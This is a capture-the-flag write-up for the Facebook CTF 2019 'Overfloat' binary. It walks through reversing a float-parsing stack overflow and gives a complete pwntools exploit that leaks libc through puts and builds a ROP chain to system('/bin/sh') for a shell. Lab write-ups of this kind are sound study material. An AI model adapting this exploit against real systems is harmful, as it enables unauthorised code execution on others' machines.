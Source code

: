 ```yaml
---
title: Facebook CTF 2019 Overfloat
author: megachar0x01
date: 2022-07-11
categories: [Pwn, amd64, Binary Exploitation, nightmare, module08]
---
```


### Purpose : Get shell on system 

[![asciicast](https://asciinema.org/a/507984.svg)](https://asciinema.org/a/507984)

Let's start by checking restrictions on binary.

<img src="https://i.imgur.com/wQps0v7.png" alt="img_1">

Only Stack is not executable which kills the possibility of putting shellcode in vuln_buffer and jumping to it.

Start reversing by analyzing the main function. We can see that usage of settbuff functions so binary works correctly with network sockets. Then puts print ASCII art. Memset function  is used to clear out an array with zero. Pass pointer of Char array to "chart_course " function. Then msg is printed and the function exits.


<img src="https://i.imgur.com/VS2hi0h.png" alt="img_2">


Now it's time to analyze the chart_course function. Loop is created which can only be exited if the user inputs "done". This loop is overflowing as we will be seeing in a minute. We can ignore some parts of the code as it is printing "LAT" on even and "LON" on odd. fget function is used to take take "100" bytes input from the user and store it in local_78. Next, we see first 4 bytes are taken from the local_78 variable and compared to the "done" string if compare is successful function is exited, and if not rest of the code carries on. As we go down we can see atof function is used to convert a string into float and then save it in dvar2 (This part will be important while building an exploit because it controls what is placed on the stack ). dvar2 value is saved to local_10. memset is used to clear values in dvar2. This part is important because be Attentive address of char_array is incremented on every loop by 4 bytes using the loop counter multiplied by 4 and then local_10 content is saved on that address. This part is which creates buffer overflow as no checks are placed.


<img src="https://i.imgur.com/ScXigbq.png" alt="img_3">


Now it's time to start building an exploit. To bypass aslr and create a rop chain we have to find libc base address. For calculating base address we leak puts address from got and then subtract from the offset of puts to get base_address then transfer execution to the main function. This time exploiting the same vuln we can get shell we have to create a rop chain to call system function while passing "/bin/sh" strings. It's all ez most important and the time-consuming thing was building format function. As I stated earlier atof function converts float value in string form to float data type as all this is handled in flu (special register xmm0,ymm0,zmm0 for floating-point arithmetic ). So when values from special registers are placed on memory are in hex form. To put what hex values should be placed on memory I came up with this idea (it barely does its work there will be  a better way to solve this issue ).



```python
#!/usr/bin/python3 
from pwn import *
import struct

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''

continue
'''.format(**locals())


exe = './overfloat'; elf = context.binary = ELF(exe, checksec=False);exe_rop = ROP(exe,checksec=False)
libc = ELF(" <add full path to libc > ",checksec=False)
ld = ELF(" <add full path to ld > ",checksec=False)

######### hardcode ########

plt_puts = elf.plt['puts'] 
got_puts =  elf.got['puts'] 
pop_rdi = exe_rop.find_gadget(['pop rdi','ret'])[0] 
main = elf.symbols['main'] 
ret = exe_rop.find_gadget(['ret'])[0] 

###########################


def format(recv_value):
    x = bytes(str(struct.unpack("f",(p64(recv_value)[4:8]))).strip("(").strip(",)"),"utf-8")
    y = bytes(str(struct.unpack("f",(p64(recv_value)[0:4]))).strip("(").strip(",)"),"utf-8")
    io.sendlineafter(b"]:",y)
    io.sendlineafter(b"]:",x)

def leak_value():
    for x in range(7):
        format(0x0000000000000000)
    format(pop_rdi)
    format(got_puts)
    format(plt_puts)
    format (main)
    io.sendlineafter(b"]:",b"done")
    io.recvline()
    raw = io.recvline().strip(b"\n")
    leak_add = u64(raw + b"\x00"*(8-len(raw)))
    libc.address = leak_add - libc.symbols['puts']
    print("leak value",hex(libc.address))

def exploit():
    for x in range(7):
        format(0x4242424242424242)
    format(pop_rdi)
    format(next(libc.search(b"/bin/sh")))
    format(ret)
    format(libc.symbols['system'])   
    io.sendlineafter(b"]:",b"done")

io = start()

leak_value()

exploit()

io.interactive()

```

